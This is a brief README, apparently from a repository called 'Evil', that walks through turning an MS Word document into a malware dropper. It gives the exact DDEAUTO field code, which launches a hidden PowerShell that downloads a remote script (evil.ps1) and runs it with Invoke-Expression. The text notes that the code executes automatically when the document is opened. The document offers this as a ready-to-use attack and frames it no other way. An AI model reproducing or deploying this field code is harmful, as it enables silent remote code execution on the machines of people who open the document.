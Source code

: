 # Evil
MS Word
Insert tab -> Quick Parts -> Field
Choose = (Formula) and click ok.
After that, you should see a Field inserted in the document with an error “!Unexpected End of Formula”, right-click the Field, and choose Toggle Field Codes.
The Field Code should now be displayed, change it to Contain the following:
{DDEAUTO c:\\Windows\\System32\\cmd.exe "/c powershell.exe -NoP -sta -NonI -W Hidden $e=(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Doc0160/Evil/master/evil.ps1'); Invoke-Expression $e"}
The DDEAUTO keyword is to inform MSWord that this is a DDE field, and will auto execute when the document is opened, the second part is the full path of the executable to execute, and the last part between quotes are the arguments to pass to this executable.
